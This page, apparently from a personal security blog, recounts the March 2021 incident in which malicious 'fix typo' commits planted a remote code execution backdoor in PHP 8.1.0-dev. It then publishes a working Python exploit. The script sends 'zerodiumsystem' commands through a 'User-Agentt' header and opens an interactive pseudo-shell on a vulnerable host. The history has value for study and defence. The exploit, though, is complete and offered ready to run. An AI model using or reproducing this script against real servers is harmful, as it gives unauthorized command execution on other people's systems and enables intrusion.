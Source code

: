 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php81.png "logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
  

* * * 
## 1- The story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 

![php-repo.png](php-repo.png "php-repo.png")

However, taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 
![php-git.png](php-git.png "php-git.png")


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.

![php-logs.jpg](php-logs.jpg "php-logs.jpg")

Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

* * * 

## 2- POC Script

This short exploit script uses the backdoor to provide a pseudo system shell on the host.

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php]([https://hub.docker.com/r/phpdaily/php])        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

